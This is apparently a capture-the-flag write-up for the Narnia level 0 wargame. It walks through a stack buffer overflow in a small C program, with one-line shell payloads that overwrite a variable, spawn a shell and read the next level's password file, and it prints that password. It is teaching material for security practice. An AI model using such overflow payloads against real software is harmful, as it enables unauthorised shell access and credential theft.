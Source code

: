 For this level, we need to do a buffer overflow attack to allow an injection shell command to get the password. To facilitate that, let's first look at the source code provided:
```
/*
   ...
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);
    
    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
From the source, we observe:

    - A buffer named buf of length 20 bytes.
    - A variable val initialized with the value 0x41414141.
    - A vulnerable scanf function reading 24 bytes of input, which allows for a buffer overflow.
    - The program checks if the value of val is 0xdeadbeef. If this condition is met, the program spawns a shell.

So, our main focus is the buffer overflow attack. To do this, we need to overflow the buffer (by inputting more than 20 bytes) in `buf` which then changes the overflowed values in `val`; 

Our objective is to overflow `buf` such that `val` is overwritten with the desired value `0xdeadbeef`.

Command:
```
narnia0@gibson:/narnia$ echo -e "$(printf 'A%.0s' {1..20})\xef\xbe\xad\xde cat /etc/narnia_pass/narnia1" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
```

Here, "\xef\xbe\xad\xde" represents 0xdeadbeef in little-endian byte ordering. We prepend this with 20 'A' characters to fill the buffer and overflow into the `val` variable.

Now we need to figure out why our shell terminal is not opened up or hanging. We can now get our password by creating a subshell with cat like so:
```
narnia0@gibson:/narnia$ (echo -e "$(printf 'A%.0s' {1..20})\xef\xbe\xad\xde"; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cat /etc/narnia_pass/narnia1
eaa6AjYMBB
```